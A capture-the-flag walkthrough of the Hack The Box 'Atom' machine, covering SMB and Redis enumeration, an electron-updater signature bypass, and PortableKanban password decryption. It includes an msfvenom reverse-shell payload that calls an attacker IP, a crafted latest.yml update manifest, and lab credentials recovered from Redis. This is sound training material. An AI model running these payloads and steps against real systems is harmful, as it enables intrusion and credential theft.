




# Atom
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.237 -T4                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 15:42 BST
Nmap scan report for 10.10.10.237 (10.10.10.237)
Host is up (0.094s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
5985/tcp open  wsman
6379/tcp open  redis
7680/tcp open  pando-pub
```
```
└─$ nmap -Pn -p80,135,443,445,5985,6379,7680 -sC -sV 10.10.10.237 -T4 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 16:01 BST
Nmap scan report for 10.10.10.237 (10.10.10.237)
Host is up (0.23s latency).

PORT     STATE    SERVICE   VERSION
80/tcp   open     http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Heed Solutions
135/tcp  open     msrpc     Microsoft Windows RPC
443/tcp  open     ssl/http  Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Heed Solutions
|_ssl-date: TLS randomness does not represent time
445/tcp  open     0�j�7V    Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open     http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open     redis     Redis key-value store
7680/tcp filtered pando-pub
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-10T08:00:46-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2h19m23s, deviation: 4h02m30s, median: -36s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-10T15:00:47
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.43 seconds
                                                               
```
- `smb`
```
└─$ smbclient -N -L //10.10.10.237       

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Software_Updates Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.237 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```
```
└─$ smbclient -N //10.10.10.237/Software_Updates
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Sep 10 16:53:06 2023
  ..                                  D        0  Sun Sep 10 16:53:06 2023
  client1                             D        0  Sun Sep 10 16:53:06 2023
  client2                             D        0  Sun Sep 10 16:53:06 2023
  client3                             D        0  Sun Sep 10 16:53:06 2023
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 12:18:08 2021

                4413951 blocks of size 4096. 1372464 blocks available
smb: \> 
```


- Web Server
  - We can download `heed_setup_v1.0.0.zip`


- `redis`
  - https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#basic-information
```
└─$ redis-cli -h 10.10.10.237
10.10.10.237:6379> info
NOAUTH Authentication required.
10.10.10.237:6379> keys *
(error) NOAUTH Authentication required.
10.10.10.237:6379> 
```

## Foothold/User
- `heed_setup_v1.0.0.zip`


- The content
  - Inside the `app-64.7z` we see `LICENSE.electron.txt`
  - Looks like an [electron app](https://www.electronjs.org/)






- I will extract `app-64.7z`
  - Navigate to `resources`
    - We will see `app.asar` 
      - https://www.electronjs.org/docs/latest/tutorial/asar-archives
  - We can use [asar](https://github.com/electron/asar) tool
    - `sudo npm -g install asar`

```
└─$ asar list app.asar         
/createNote.html
/main.js
/package.json
/version.html
/icons
/icons/ico.png
/node_modules
/node_modules/argparse
/node_modules/argparse/LICENSE
/node_modules/argparse/index.js
/node_modules/argparse/package.json
...
```

- Let's extract `main.js`
```
└─$ asar extract-file app.asar main.js
```

- Content of `main.js`
```
└─$ cat main.js                  
const {app, BrowserWindow, Menu, protocol, ipcMain} = require('electron');
const log = require('electron-log');
const {autoUpdater} = require("electron-updater");
const path = require('path');

autoUpdater.logger = log;
autoUpdater.logger.transports.file.level = 'debug';
...
autoUpdater.on('checking-for-update', () => {
  sendStatusToWindow('Checking for update...');
})
autoUpdater.on('update-available', (ev, info) => {
  sendStatusToWindow('Update available.');
})
autoUpdater.on('update-not-available', (ev, info) => {
  sendStatusToWindow('Update not available.');
})
autoUpdater.on('error', (ev, err) => {
  sendStatusToWindow('Error in auto-updater.');
})
autoUpdater.on('download-progress', (ev, progressObj) => {
  sendStatusToWindow('Download progress...');
})
autoUpdater.on('update-downloaded', (ev, info) => {
  sendStatusToWindow('Update downloaded; Installing the update...');
});

app.on('window-all-closed', () => {
  app.quit();
});

autoUpdater.on('update-downloaded', (ev, info) => {
  autoUpdater.quitAndInstall();
})

app.on('ready', function()  {
  autoUpdater.checkForUpdates();
});
```

- There's also `app-update.yml` in the same directory, 
  - Inside we have a `vhost` => `updates.atom.htb`
```
└─$ cat app-update.yml 
provider: generic
url: 'http://updates.atom.htb'
publisherName:
  - HackTheBox
```

- Nothing else
  - If we google `electron-updater exploit` we have a link to [post](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
  - Do you remember that we had a `pdf` file stating that we can upload `updates` to `client` folders in `smb` to launch `QA` process
    - Our `update` will be installed and tested
  - Let's generate a payload
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=6666 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

- Now we need to create `latest.yml` according to [post](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
  - We also need `base64` of `SHA512` of our payload
    - `sha512sum shell.exe | cut -d ' ' -f1 | xxd -r -p | base64 -w0`
```
version: 3.2.3
files:
  - url: s'hell.exe
    sha512: v1HBe7xBQbrkaeQfhDvSIayf/tVOIJy6NggEkZfkoYhagIc1pEU9GDRsEug788bOxghbiB16Jp+AtJkmq+WOSA==
    size: 7168     
path: s'hell.exe
sha512: v1HBe7xBQbrkaeQfhDvSIayf/tVOIJy6NggEkZfkoYhagIc1pEU9GDRsEug788bOxghbiB16Jp+AtJkmq+WOSA==
releaseDate: '2023-09-11T10:42:02.327Z'
```

- Let's upload the `latest.yml` and `shell.exe` to `smb`
```
└─$ smbclient -N //10.10.10.237/Software_Updates
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 11 17:41:51 2023
  ..                                  D        0  Mon Sep 11 17:41:51 2023
  client1                             D        0  Mon Sep 11 17:41:51 2023
  client2                             D        0  Mon Sep 11 17:41:51 2023
  client3                             D        0  Mon Sep 11 17:41:51 2023
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 12:18:08 2021

                4413951 blocks of size 4096. 1374666 blocks available
smb: \> cd client1
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (1.1 kb/s) (average 1.1 kb/s)
smb: \client1\> put shell.exe s'hell.exe
putting file shell.exe as \client1\s'hell.exe (17.2 kb/s) (average 10.5 kb/s)
smb: \client1\> 

```

- And after few minutes we have our shell


## Root
- `whoami`
```
c:\Users\jason>whoami
whoami
atom\jason

c:\Users\jason>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

c:\Users\jason>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192   
```
- `Downloads` folder
```
c:\Users\jason>dir Downloads
dir Downloads
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of c:\Users\jason\Downloads

04/02/2021  08:00 AM    <DIR>          .
04/02/2021  08:00 AM    <DIR>          ..
03/31/2021  02:36 AM    <DIR>          node_modules
04/02/2021  08:21 PM    <DIR>          PortableKanban
               0 File(s)              0 bytes
               4 Dir(s)   5,628,964,864 bytes free
```
- Googling results in https://www.exploit-db.com/exploits/49409
  - Looks like we need a `PortableKanban.pk3` file
  - But we don't have one
```
c:\Users\jason\Downloads\PortableKanban>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of c:\Users\jason\Downloads\PortableKanban

04/02/2021  08:21 PM    <DIR>          .
04/02/2021  08:21 PM    <DIR>          ..
02/27/2013  08:06 AM            58,368 CommandLine.dll
11/08/2017  01:52 PM           141,312 CsvHelper.dll
06/22/2016  09:31 PM           456,704 DotNetZip.dll
04/02/2021  07:44 AM    <DIR>          Files
11/23/2017  04:29 PM            23,040 Itenso.Rtf.Converter.Html.dll
11/23/2017  04:29 PM            75,776 Itenso.Rtf.Interpreter.dll
11/23/2017  04:29 PM            32,768 Itenso.Rtf.Parser.dll
11/23/2017  04:29 PM            19,968 Itenso.Sys.dll
11/23/2017  04:29 PM           376,832 MsgReader.dll
07/03/2014  10:20 PM           133,296 Ookii.Dialogs.dll
04/02/2021  07:17 AM    <DIR>          Plugins
04/02/2021  08:22 PM             5,920 PortableKanban.cfg
01/04/2018  09:12 PM           118,184 PortableKanban.Data.dll
01/04/2018  09:12 PM         1,878,440 PortableKanban.exe
01/04/2018  09:12 PM            31,144 PortableKanban.Extensions.dll
04/02/2021  07:21 AM               172 PortableKanban.pk3.lock
09/06/2017  12:18 PM           413,184 ServiceStack.Common.dll
09/06/2017  12:17 PM           137,216 ServiceStack.Interfaces.dll
09/06/2017  12:02 PM           292,352 ServiceStack.Redis.dll
09/06/2017  04:38 AM           411,648 ServiceStack.Text.dll
01/04/2018  09:14 PM         1,050,092 User Guide.pdf
```

- `PortableKanban.cfg` looks interesting
```
c:\Users\jason\Downloads\PortableKanban>type PortableKanban.cfg
type PortableKanban.cfg
{"RoamingSettings":{"DataSource":"RedisServer","DbServer":"localhost","DbPort":6379,"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb","DbServer2":"","DbPort2":6379,"DbEncPassword2":"","DbIndex":0,"DbSsl":false,"DbTimeout":10,"FlushChanges":true,"UpdateInterval":5,"AutoUpdate":true,"Caption":"My Tasks","RightClickAction":"Nothing","DateTimeFormat":"ddd, M/d/yyyy h:mm tt","BoardForeColor":"WhiteSmoke","BoardBackColor":"DimGray","ViewTabsFont":"Segoe UI, 9pt","SelectedViewTabForeColor":"WhiteSmoke","SelectedViewTabBackColor":"Black","HeaderFont":"Segoe UI, 11.4pt","HeaderShowCount":true,"HeaderShowLimit":true,"HeaderShowEstimates":true,"HeaderShowPoints":false,"HeaderForeColor":"WhiteSmoke","HeaderBackColor":"Gray","CardFont":"Segoe UI, 11.4pt","CardLines":3,"CardTextAlignment":"Center","CardShowMarks":true,"CardShowInitials":false,"CardShowTags":true,"ThickTags":false,"DefaultTaskForeColor":"WhiteSmoke","DefaultTaskBackColor":"Gray","SelectedTaskForeColor":"WhiteSmoke","SelectedTaskBackColor":"Black","SelectedTaskFrames":false,"SelectedTaskFrameColor":"WhiteSmoke","SelectedTaskThickFrames":false,"WarmTasksThreshold":0,"WarmTaskForeColor":"WhiteSmoke","WarmTaskBackColor":"MediumBlue","WarmTaskFrameColor":"Goldenrod","HotTasksThreshold":1,"HotTaskForeColor":"WhiteSmoke","HotTaskBackColor":"Blue","HotTaskFrameColor":"Yellow","OverdueTaskForeColor":"WhiteSmoke","OverdueTaskBackColor":"OrangeRed","OverdueTaskFrameColor":"OrangeRed","WarmHotTaskFrames":false,"WarmHotTaskThickFrames":false,"BusinessDaysOnly":false,"TrackedTaskForeColor":"WhiteSmoke","TrackedTaskBackColor":"Red","ShowSubtasksInEditBox":true,"CheckForDuplicates":true,"WarnBeforeDeleting":true,"ProgressIncrement":5,"DisableCreated":false,"DefaultPriority":"Low","DefaultDeadlineTime":"PT0S","ShowTaskComments":true,"IntervalFormat":"Hours","WorkUnitDuration":1,"SelectAnyColumn":false,"ShowInfo":true,"CardInfoFont":"Segoe UI, 9pt","InfoTextAlignment":"Center","InfoShowPriority":true,"InfoShowTopic":true,"InfoShowPerson":true,"InfoShowCreated":true,"InfoShowDeadlineCompleted":true,"InfoShowSubtasks":false,"InfoShowEstimate":false,"InfoShowSpent":false,"InfoShowPoints":false,"InfoShowProgress":true,"InfoShowCommentsCount":false,"InfoShowTags":false,"InfoShowCustomFields":false,"ShowToolTips":true,"ToolTipShowText":true,"ToolTipTextLimit":200,"ToolTipShowPriority":true,"ToolTipShowTopic":true,"ToolTipShowPerson":true,"ToolTipShowCreated":false,"ToolTipShowDeadlineCompleted":true,"ToolTipShowSubtasks":true,"ToolTipShowEstimate":true,"ToolTipShowSpent":true,"ToolTipShowPoints":true,"ToolTipShowProgress":true,"ToolTipShowCommentsCount":false,"ToolTipShowTags":false,"ToolTipShowCustomFields":false,"TimerWorkInterval":25,"TimeShortBreakInterval":5,"TimerLongBreakInterval":15,"PlaySound":1000,"ActivateWindow":false,"TaskBarProgress":true,"EnableTimeTracking":true,"AlertOnNewTask":false,"AlertOnModifiedTask":false,"AlertOnCompletedTask":false,"AlertOnCanceledTask":false,"AlertOnReassignedTask":false,"AlertOnMovedTask":false,"AlertOnDeletedTask":false,"AlertMethod":"None","EmailLogon":true,"EmailReviewMessage":true,"EmailSmtpPort":587,"EmailSmtpDeliveryMethod":"Network","EmailSmtpUseDefaultCredentials":false,"EmailSmtpEnableSSL":false,"EmailSmtpTimeout":5,"EmailAttachFile":true,"EmailNewTaskSubject":"PortableKanban Notification: New task has been created","EmailDeletedTaskSubject":"PortableKanban Notification: Task has been deleted","EmailEditedTaskSubject":"PortableKanban Notification: Task has been modified","EmailCompletedTaskSubject":"PortableKanban Notification: Task has been completed","EmailCanceledTaskSubject":"PortableKanban Notification: Task has been canceled","EmailReassignedTaskSubject":"PortableKanban Notification: Task has been reassigned","EmailMovedTaskSubject":"PortableKanban Notification: Task has been moved","EmailSignature":"This is automatic message.","PluginsSettings":{"bd5d2026e1f7424eab8690a62ad05ad2":{},"07a0d797c97c41f789af21ff4298754e":{"SourceColumnId":"00000000000000000000000000000000","DestinationColumnId":"00000000000000000000000000000000","Age":30},"2e470c79feb946f2b6e74b35245f8e80":{"FromDate":"\/Date(1617346800000-0700)\/","ToDate":"\/Date(1617346800000-0700)\/","IncludeTopics":false,"IncludeTags":false,"IncludeComments":false,"ReportType":"Html","SortByUser":true},"680986568fed41c381ef9f230feaa102":{"RunOnStartup":false},"24b7acead7984f8ab16bdb0ae8559fb6":{"TopicId":"00000000000000000000000000000000","ColumnId":"00000000000000000000000000000000","FromPersonId":"00000000000000000000000000000000","ToPersonId":"00000000000000000000000000000000"}},"AutoLogon":false,"LogonUserName":"","EncLogonPassword":"","ExitOnSuspend":false,"DropFilesFolder":"Files","UseRelativePath":true,"ConfirmFileDeleteion":true,"DefaultDropFilesActionOption":"Copy","CreateNewTaskForEachDroppedFile":true,"ParseDroppedEmails":true,"RestoreWindowsLocation":true,"DesktopShortcut":false,"DailyBackup":false,"BackupTime":"PT0S","BlockEscape":false,"BlackWhiteIcon":true,"ShowTimer":true,"ViewId":"00000000000000000000000000000000","SearchInSubtasks":false,"ReportIncludeComments":true,"ReportIncludeSubTasks":true,"ReportIncludeTimeTracks":true,"ReportIncludeCustomFields":true},"LocalSettingsMap":{"ATOM":{"Left":320,"Top":2,"Width":800,"Height":601,"Minimized":false,"Maximized":false,"FullScreen":false,"Hidden":false,"AboutBoxLeft":0,"AboutBoxTop":0,"AboutBoxWidth":0,"AboutBoxHeight":0,"EditBoxLeft":0,"EditBoxTop":0,"EditBoxWidth":0,"EditBoxHeight":0,"EditBoxSplitterOrientation":1,"EditBoxSplitterDistance":0,"EditBoxFontSize":0,"EditBoxCommentsSortDirection":"Ascending","ReportBoxLeft":370,"ReportBoxTop":27,"ReportBoxWidth":700,"ReportBoxHeight":551,"SetupBoxLeft":370,"SetupBoxTop":52,"SetupBoxWidth":700,"SetupBoxHeight":501,"ViewBoxLeft":0,"ViewBoxTop":0,"ViewBoxWidth":0,"ViewBoxHeight":0,"LogonBoxLeft":520,"LogonBoxTop":202,"LogonBoxWidth":400,"LogonBoxHeight":201}}}

```

- We see the creds for `redis` 
  - Looks like `PortableKanban` uses `redis` as storage
  - `DbEncPassword:Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb`
  - Let's check `redis`

```
c:\Program Files\Redis>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of c:\Program Files\Redis

09/11/2023  08:20 AM    <DIR>          .
09/11/2023  08:20 AM    <DIR>          ..
07/01/2016  03:54 PM             1,024 EventLog.dll
04/02/2021  07:31 AM    <DIR>          Logs
07/01/2016  03:52 PM            12,618 Redis on Windows Release Notes.docx
07/01/2016  03:52 PM            16,769 Redis on Windows.docx
07/01/2016  03:55 PM           406,016 redis-benchmark.exe
07/01/2016  03:55 PM         4,370,432 redis-benchmark.pdb
07/01/2016  03:55 PM           257,024 redis-check-aof.exe
07/01/2016  03:55 PM         3,518,464 redis-check-aof.pdb
07/01/2016  03:55 PM           268,288 redis-check-dump.exe
07/01/2016  03:55 PM         3,485,696 redis-check-dump.pdb
07/01/2016  03:55 PM           482,304 redis-cli.exe
07/01/2016  03:55 PM         4,517,888 redis-cli.pdb
07/01/2016  03:55 PM         1,553,408 redis-server.exe
07/01/2016  03:55 PM         6,909,952 redis-server.pdb
04/02/2021  07:39 AM            43,962 redis.windows-service.conf
04/02/2021  07:37 AM            43,960 redis.windows.conf
07/01/2016  09:17 AM            14,265 Windows Service Documentation.docx
```

- We can try grepping for password
  - https://shyammakwana.me/redis/set-redis-password-in-windows-and-ubuntu.html
  - And looks like we have one: `kidvscat_yes_kidvscat`
```
PS C:\Program Files\Redis> cat *.conf | select-string -pattern "pass" 
cat *.conf | select-string -pattern "pass" 

requirepass kidvscat_yes_kidvscat
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the slave missed while
# Require clients to issue AUTH <PASSWORD> before processing any other
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared
requirepass kidvscat_yes_kidvscat
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the slave missed while
# Require clients to issue AUTH <PASSWORD> before processing any other
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared

```

- Let's connect to `redis`
  - https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-authentication

```
└─$ redis-cli -h 10.10.10.237
10.10.10.237:6379> auth kidvscat_yes_kidvscat
OK
10.10.10.237:6379> keys *
1) "pk:ids:User"
2) "pk:ids:MetaDataClass"
3) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
4) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
10.10.10.237:6379> 
```
- We have a key `pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`
  - Let's get it
```
10.10.10.237:6379> get "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
```

- Now we have encrypted password of `PortableKanban`
  - `Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi`
  - Using the [post](https://www.exploit-db.com/exploits/49409) as template
  - I used [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)DES_Decrypt(%7B'option':'UTF8','string':'7ly6UznJ'%7D,%7B'option':'UTF8','string':'XuVUm5fR'%7D,'CBC','Raw','Raw')&input=T2RoN04zTDlhVlE4L3NyZFpnRzJoSVIwU1NKb0pLR2k)
    - The `post` uses:
      - `DES` decrypt
      - Key: `7ly6UznJ`
      - IV: `XuVUm5fR`
  - Now we have `Administrator`'s password: `kidvscat_admin_@123`



- Let's connect



- P.S. This box is also vulnerable to `PrintNightmare`